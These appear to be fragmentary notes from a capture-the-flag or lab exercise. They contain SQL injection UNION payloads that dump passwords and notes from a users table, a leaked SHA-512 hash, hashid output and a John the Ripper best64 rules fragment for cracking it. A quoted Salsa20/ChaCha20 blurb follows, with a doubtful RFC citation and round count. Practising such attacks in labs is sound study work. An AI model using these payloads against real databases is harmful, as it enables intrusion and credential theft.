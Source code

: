   ```sql
  columns
  
  name
  password
  admin 
  notes
  
  user='union select null,null,null,password from users;-- -
  
  "The password for None is incorrect! 01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0"}
  
  user='union select null,null,name,notes from users;-- -
  
  user='union select null,null,null,group_concat(notes) from users;-- -
  ```
  
[[group_concat]] 
 
My linux username is my first name, and password uses best64, contact administrator. 
  

  Aaliyah Allen
  user None ? 
  
  --wordlist --rules --rules-stack=_best64_
  
  Aaliyah:01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0
  
  
  best64
  
  
  
  from samba other user Harry

```ssh
  ──(kali㉿kali)-[~]
└─$ hashid -m -j 
01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0
Analyzing '01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0'
[+] SHA-512 [Hashcat Mode: 1700][JtR Format: raw-sha512]
[+] Whirlpool [Hashcat Mode: 6100][JtR Format: whirlpool]
[+] Salsa10 
[+] Salsa20 
[+] SHA3-512 [JtR Format: raw-keccak]
[+] Skein-512 [JtR Format: skein-512]
[+] Skein-1024(512) 
  
```

Salsa ?

https://asecuritysite.com/encryption/salsa20
```html
Salsa20 and ChaCha20 were designed by Daniel J. Bernstein and are stream ciphers [[here](https://en.wikipedia.org/wiki/Salsa20)]. They have been benchmarked to be more than three times faster the AES. Google have defined ChaCha20 as a standard for stream encryption [[RFC 7539](https://tools.ietf.org/html/rfc7539)] and is included in TLS standards [[RFC 7505](https://tools.ietf.org/html/rfc7505)]. It uses a 256-bit key, a 32-bit counter, and a 96-bit nonce, with 10 rounds of permutations.
```
